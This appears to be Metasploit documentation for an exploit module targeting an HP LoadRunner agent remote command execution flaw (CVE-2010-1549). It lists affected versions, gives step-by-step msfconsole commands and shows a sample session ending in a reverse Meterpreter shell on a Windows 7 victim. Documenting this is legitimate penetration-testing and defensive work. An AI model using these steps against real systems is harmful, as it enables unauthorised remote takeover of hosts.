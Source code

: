 HP Mercury LoadRunner Agent magentproc.exe Remote Command Execution (CVE-2010-1549)

This module exploits a remote command execution vulnerablity in HP LoadRunner before 9.50 and also 
HP Performance Center before 9.50. By sending a specially crafted packet, an attacker can execute commands remotely. 
The service is vulnerable provided the Secure Channel feature is disabled (default).

During testing, additional versions were verified to be vulnerable.  The following list documents them:

 - HP LoadRunner 12.53 Community Edition (non-default SSL turned off)

## Vulnerable Application

HP LoadRunner 9.50 or below, or a version documented above.

## Verification Steps

1. Install the application
2. Start msfconsole
3. Do: ```use exploit/windows/misc/hp_loadrunner_magentproc_cmdexec```
4. Do: ```set RHOST [ip]```
5. Do: ```run```
6. You should get a shell.

## Scenarios

### Win7 OS with HP LoadRunner 12.53 Community Edition

```
msf > use exploit/windows/misc/hp_loadrunner_magentproc_cmdexec
msf exploit(hp_loadrunner_magentproc_cmdexec) > set RHOST victim
RHOST => victim
msf exploit(hp_loadrunner_magentproc_cmdexec) > exploit

[*] Started reverse TCP handler on 1.1.1.1:4444
[*] victim:54345 - Sending payload...
[*] victim:54345 - Command Stager progress -   1.47% done (1499/102292 bytes)
[*] victim:54345 - Command Stager progress -   2.93% done (2998/102292 bytes)
[*] victim:54345 - Command Stager progress -   4.40% done (4497/102292 bytes)
[*] victim:54345 - Command Stager progress -   5.86% done (5996/102292 bytes)
[*] victim:54345 - Command Stager progress -   7.33% done (7495/102292 bytes)
...snip...
[*] victim:54345 - Command Stager progress -  92.32% done (94437/102292 bytes)
[*] victim:54345 - Command Stager progress -  93.79% done (95936/102292 bytes)
[*] victim:54345 - Command Stager progress -  95.25% done (97435/102292 bytes)
[*] victim:54345 - Command Stager progress -  96.72% done (98934/102292 bytes)
[*] victim:54345 - Command Stager progress -  98.15% done (100400/102292 bytes)
[*] victim:54345 - Command Stager progress -  99.55% done (101827/102292 bytes)
[*] victim:54345 - Command Stager progress - 100.00% done (102292/102292 bytes)
[*] Sending stage (179267 bytes) to 2.2.2.2
[*] Meterpreter session 1 opened (1.1.1.1:4444 -> 2.2.2.2:55556) at 2017-11-09 03:53:08 +1100

meterpreter > sysinfo
Computer        : TARGET
OS              : Windows 7 (Build 7601, Service Pack 1).
Architecture    : x64
System Language : en_AU
Domain          : DOMAIN
Logged On Users : 3
Meterpreter     : x86/windows
meterpreter >
Background session 1? [y/N]

```

